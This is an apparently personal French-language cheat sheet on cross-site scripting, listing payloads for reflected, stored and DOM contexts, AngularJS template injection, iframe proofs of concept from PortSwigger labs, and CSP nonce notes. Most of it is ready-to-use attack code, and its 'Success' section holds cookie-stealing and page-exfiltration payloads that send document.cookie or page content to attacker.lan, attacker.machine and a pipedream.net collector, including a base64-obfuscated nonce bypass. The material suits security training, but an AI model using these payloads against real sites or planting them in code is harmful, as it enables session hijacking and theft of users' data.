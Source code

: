 # XSS

## Ressources 

* [SecList](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing)

* [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

## Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

```html
<script>alert(0)</script>
```

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

```js
onready="alert(0)
```

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

```js
'; alert(0); //
```

## types

### Reflected & Stored

```html
<script>alert(0)</script>
<img src=1 onerror=alert(1)>
<a href="javascript:alert(document.domain)">Click Me</a>
```

parfois il faut jouer avec les "quotes":

```js
"onmouseover="alert(0)'
```

exécutera : 

```js
name=search value=""onmouseover="alert(0)">
```

Quand la saisie réapparait dans un href, on insert directement le code JS:

```js
javascript:alert(document.domain)
```

Si la saisie réapparait dans du code JS, on ferme la quote ' et utilise le signe moins - ou + pour concat:

```js
'+alert(document.cookie)+'
```

### DOM

```html
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>
```

#### jQuery + manipulation url


```js
?returnUrl=javascript:alert(document.domain)
```

#### AngularJS + ng-app attribute

```js
{{constructor.constructor('alert(1)')()}}
```

#### in xhr

```js
\"-alert(1)}//
```

### POC depuis un iframe

```html
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>
```

## custom ID (from malicious server)

```html
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```


## Nonce


* Le `Nonce` (number used once) sont générer par le serveur est utilisé une seule fois.

1. Le serveur génère un nonce aléatoire

2. Il inclut ce nonce dans le header HTTP `Content-Security-Policy`

3. Dans la page HTML, tous les scripts inline ou externes autorisés ont cet attribut : `<script nonce="cbf6db1d77f646653fe0e66d34d84570">...</script>`

4. Seuls les scripts ayant la valeur `Nonce` de la CSP sont exécutés.


------------

## Retours d'expérience

* Prendre le temps le lire le `CSP`

### Success

* Lorsque des caractères sont filtrés: utiliser le fuzzer ZAP, le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit jusqu'a avoir des réponses 200 avec chars non encodés
* regarder dans le débugger du navigateur: "inspect element" et onglet "source" pour contrôler l'échappent.

* Vol de cookie (DOM based) : 

```js
test';document.location="https://attacker.lan?c="+document.cookie;'
```

```html
<script>
fetch('https://attacker.machine', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

* Vol du contenu la page web :

```html
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```

```html
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```


* marche aussi dans un fichier **.svg**

```html
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
```

fun pour les DOM :

```html
<marquee onstart=alert(1)>XSS</marquee>
```

Exemple de Contournement avec Nonce et Inline : 

```html
<script nonce="...">
  window["location"] = atob("aHR0cHM6Ly9hdHRhY2subGFuP2M9") + window["docu"+"ment"]["cookie"]
</script>
```


### Fails

* Le texte issu d'un `InnerHTML` ou d'autre fonction JS similaire n'est pas (toujours) interprété par le Navigateur. 

* Lorsque le XSS `inline` est refusé par la `CSP` on peut tenter un `Iframe` ou `javascript:`
